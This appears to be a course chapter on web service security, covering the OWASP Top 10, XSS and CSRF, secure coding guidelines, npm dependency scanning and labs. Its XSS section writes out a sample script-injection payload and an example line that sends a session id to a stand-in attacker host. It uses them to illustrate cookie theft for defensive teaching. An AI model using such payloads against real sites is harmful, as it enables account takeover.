 # Web Service Security

We are going to focus on security related topic in this section. The target is to get familiar with common vulnerabilities that may be exposed by web services and how to avoid them.

## OWASP Top 10 Vulnerabilities

The Open Web Application Security Project (OWASP) is a non-profit organization dedicated to providing unbiased, practical information about application security. The [OWASP Top 10 Web Application Security Risks](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project) was updated in 2017 to provide guidance to developers and security professionals on the most critical vulnerabilities that are commonly found in web applications, which are also easy to exploit. These 10 application risks are dangerous because they may allow attackers to plant malware, steal data, or completely take over your computers or web servers.

For those who are new to security issues, they may find it hard to interpret those issues. Luckily there is a project called [Damn Vulnerable NodeJS Application](https://appsecco.com/books/dvna-developers-security-guide/intro.html) which demonstrates some of the security issues. It actually demonstrates the top 10 issues identified in year 2013, which is a bit different from the list in 2017. Nevertheless, it's still a good tool to learn about those security issues. (Note: to play with this node application, you need to install [docker](https://www.docker.com/) on your computer.)

Another useful tool to demonstrate the security issues is [bWAPP, or a buggy web application](http://www.itsecgames.com/). It's written in PHP and it contains more than 100 vulnerabilities.

Out of those top 10 vulnerabilities, XSS and CSRF are very famous and worth more discussion.

### XSS (Cross Site Scripting)

Cross-site scripting, abbreviated to “XSS”, is a way attackers can take over webpages. The goal of an XSS attack is to gain control of JavaScript in the victim’s browser. Once a hacker has done that, there’s a lot of nasty stuff they can do: log your actions, impersonate you, steal your authentication cookies, and much more.

Here is an example of XSS Attack.

Assume you are filling in a form on some website. Let's say it's something innocuous like the quantity field on an order form or a comment on a comment form.

As a hacker, you can try to paste `<script>alert("haha")</script>` into the form in your system that will be viewable to someone else.

Now, what happens when the administrator views your latest orders? Basically, that javascript is now operating in the security context of the administrator. It could do something worse than alert()... for example, it could grab his session token or a cookie's secret value (depending on the cookie) and send it off to `<img src=evilattacker.xyz/clear.gif?sid=xxxx>`, and (assuming you control that `evilattacker.xyz` website) now you can get those session cookies or tokens and you can login to the system as the administrator.

This is just one way to launch XSS attack. There are many variants. You can find more examples and details from the references:

- [XSS Tutorial](https://hackertarget.com/xss-tutorial/)
- [Veracode: XSS](https://www.veracode.com/security/xss)
- [OWASP: Cross-site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_\(XSS\))
- [Cross-site scripting for dummies](https://hackernoon.com/cross-site-scripting-for-dummies-be30f76fad09)
- [XSS Explained](https://www.securesolutions.no/xss-explained/)

How can we prevent from this kind of attack?

OWASP provided a [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet)

Here are a few quick tips for developers:

- Make sure you always validate and escape the data submitted by the user, and do some sanitization on the user input data when you need to display them (i.e. display the user input data as pure text, instead of loading that as javascript code). For this purpose, you can use libraries like [xss-filter](https://github.com/yahoo/xss-filters) 

- Use tools like [helmet](https://helmetjs.github.io/docs/xss-filter/) to set `X-XSS-Protection` header in HTTP response, so that the browser can do some basic detection on XSS attack. 

- Another trick is to use [Http-Only Cookie](https://www.owasp.org/index.php/HttpOnly) so that session cookies cannot be accessed from Javascript.

- If you need to store some information into the storage space in browser, use `session storage` instead of `local storage` if you don't need that information after the browser tab is closed.

As a user, you can protect yourself by using some browser side security features. Chrome and Safari has a built-in feature called [XSS Auditor](https://www.virtuesecurity.com/blog/understanding-xss-auditor/) that tires to mitigate XSS attacks although it can’t catch all possible XSS variants.

### CSRF (Cross Site Request Forgery)

Cross-site request forgery also known as single-click attack or session traversing, in which a malicious website will throw a request to a web application that the user is already authenticated against from a different website. This way an attacker can access functionality in a targeted web application via the victim’s already authenticated browser.

Imagine the following case: A User is logged into GMail and checks his mails. After she stays logged in for a while - that's a regular behavior - the user opens a new Tab and navigates to another site. This site contains code that fires a regular HTTP Request to the GMail servers - an image tag is enough to do so. Since the user is still logged in, the request is processed with her privileges - maybe changes some settings or deletes some mails, thanks to the fact that HTTP is stateless - that's it. The attack has been performed successfully and neither the user nor GMail haven't even noticed.

[Here is another example](https://youtu.be/hW2ONyxAySY), watch the first 8 minutes of this video.

How can we prevent from this kind of attack?

One of the idea is called [CSRF Token](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_\(CSRF\)_Prevention_Cheat_Sheet#Synchronizer_.28CSRF.29_Tokens), which validate user requests with a unique token that can only come from the genuine user session.

For Express.js based applications, you can generate CSRF tokens with a middleware called [csurf](https://github.com/expressjs/csurf). 

As an end user, you can protect yourself against this attack using Firefox extension called [NoScript](https://noscript.net/) or Chrome plugin [uMatrix](https://github.com/gorhill/uMatrix) or [uBLock](https://github.com/gorhill/uBlock).

To get more details on CSRF attack, here are a few more articles:

- [Understanding CSRF](https://github.com/pillarjs/understanding-csrf)
- [Understanding the CSRF Vulnerability (A Beginner Guide)](http://www.hackingarticles.in/understanding-csrf-vulnerability-beginner-guide/)
- [CSRF DEMYSTIFIED](http://www.gnucitizen.org/blog/csrf-demystified/)
- [Wikipedia entry on CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery)

## Follow Secure Coding Practices

As a developer, you need to be aware of the common security concerns and follow best practices when you write code. 

Here are some of the guidelines:

- [Mozilla Secure Coding Guidelines](https://wiki.mozilla.org/WebAppSec/Secure_Coding_Guidelines)
- [OWASP Secure Coding Cheat Sheet](https://www.owasp.org/index.php/Secure_Coding_Cheat_Sheet)
- [JavaScript Web Application Secure Coding Practices](https://checkmarx.gitbooks.io/js-scp/)

You can also make use tools that automatically scan your code for potential security issues:

- [ESLint Plugin To Detect Possible Security Issues in Codes](https://www.npmjs.com/package/eslint-plugin-security)

## Make sure your NPM dependencies are secure

When you develop Javascript based applications, you would have a lot of dependencies on 3rd party modules. How can you be confident that those dependencies do not have known vulnerabilities? Remember, using components with known vulnerabilities" is a part of the OWASP Top 10 and insecure libraries can pose a huge risk for your web app.

What are the vulnerabilities are we talking about? You can get some examples [here](https://snyk.io/vuln?packageManager=npm)

The tools below can scan the libraries you use and detect those with vulnerabilities

- [Snyk](https://snyk.io/)
- [Node Security Platform (a.k.a NSP)](https://nodesecurity.io/)
- [Retire.js](https://retirejs.github.io/retire.js/)

You should regularly review your dependencies. Avoid the unnecessary ones and make the rest up-to-date. To ensure your dependencies are up-to-date, you can use tools like [greenkeeper](https://greenkeeper.io/)

Here are a few articles to give you more tips on how to manage the risks from 3rd party libraries:

- [Controlling the Node.js security risk of npm dependencies](https://blog.risingstack.com/controlling-node-js-security-risk-npm-dependencies/) is a good article talking about the process to reduce the security risks from 3rd party dependencies.

- [Quick Introduction on GreenKeeper/Snyk/NSP/Retire.js](https://developers.redhat.com/blog/2017/04/12/using-snyk-nsp-and-retire-js-to-identify-and-fix-vulnerable-dependencies-in-your-node-js-applications/)

- [Eliminating Known Vulnerabilities With Snyk]( https://www.smashingmagazine.com/2016/01/eliminating-known-security-vulnerabilities-with-snyk/)

## Labs

### Learn how to use Helmet

Follow this tutorial to learn about how to use Helmet:
<https://www.twilio.com/blog/2017/11/securing-your-express-app.html>

### Learn how to use csurf to prevent CSRF attack

Follow this tutorial to learn about how to use csurf:
<https://www.twilio.com/blog/2017/11/securing-your-express-app.html>

### Try to Fix OWASP Top 10 Vulnerabilities

Follow the guide to learn the TOP10 OWASP vulnerabilities

- https://github.com/OWASP/NodeGoat
- https://appsecco.com/books/dvna-developers-security-guide/intro.html

## Resources

### More Labs

- [HacksExplaining](https://www.hacksplaining.com/lessons)

### Recommended Readings

- [Node JS Security Tips](https://blog.risingstack.com/node-js-security-tips/)
- [Express Security Best Practices](https://expressjs.com/en/advanced/best-practice-security.html)
- [9 Security Practice to Keep Express from Getting Pwned](https://nodesource.com/blog/nine-security-tips-to-keep-express-from-getting-pwned/)
- [Secure Express App with various HTTP headers](https://github.com/helmetjs/helmet)
- [Writing Secure Express.js Apps](https://blog.liftsecurity.io/2012/12/07/writing-secure-express-js-apps)
- [Building Secure Javascript Apps](https://nemethgergely.com/building-secure-javascript-applications/)
- [Simple Steps to Secure Your Express Node Application](http://scottksmith.com/blog/2014/09/04/simple-steps-to-secure-your-express-node-application/)
